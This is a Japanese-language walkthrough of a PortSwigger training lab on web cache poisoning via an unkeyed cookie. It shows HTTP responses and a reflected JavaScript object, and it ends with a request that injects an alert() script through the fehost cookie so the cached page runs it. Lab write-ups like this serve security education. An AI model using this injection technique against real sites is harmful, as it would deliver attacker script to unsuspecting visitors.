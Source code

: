 # キーのない Cookie による Web キャッシュ ポイズニング

以下のハッキングラボを実施します  
https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie  
このラボは、キャッシュ キーに Cookie が含まれていないため、Web キャッシュ ポイズニング に対して脆弱です。

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. 同じ商品ページに 2 回アクセスします
     1 回目

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: fehost=prod-cache-01; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3860
```

2 回目

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 5
X-Cache: hit
Content-Length: 3860
```

- 4.レスポンスを確認すると fehost の値が javascript オブジェクトに反映されています

```html
<script>
  data = {
    host: "0aba009e03b576ae8150caa5003400ad.web-security-academy.net",
    path: "/product",
    frontend: "prod-cache-01",
  };
</script>
```

- 5. repeter に送ったリクエストにキャッシュバスター クエリ パラメーターを追加します

```
GET /?cb=1234 HTTP/2
```

送信すると javascript オブジェクトの frontend の値は保持されたままです

```html
<script>
  data = {
    host: "0aba009e03b576ae8150caa5003400ad.web-security-academy.net",
    path: "/",
    frontend: "prod-cache-01",
  };
</script>
```

- 6. 以下のように fehost にスクリプトを送信して、キャッシュさせます

```
GET / HTTP/2
Host: 0aba009e03b576ae8150caa5003400ad.web-security-academy.net
Cookie: session=yQYjZtbE7JR1UQ3EdCHptH5g83scSwTV; fehost=prod-cache-01"-alert(1)-"someString
```

- 7. ホームページでリロードするとスクリプトが実行されます

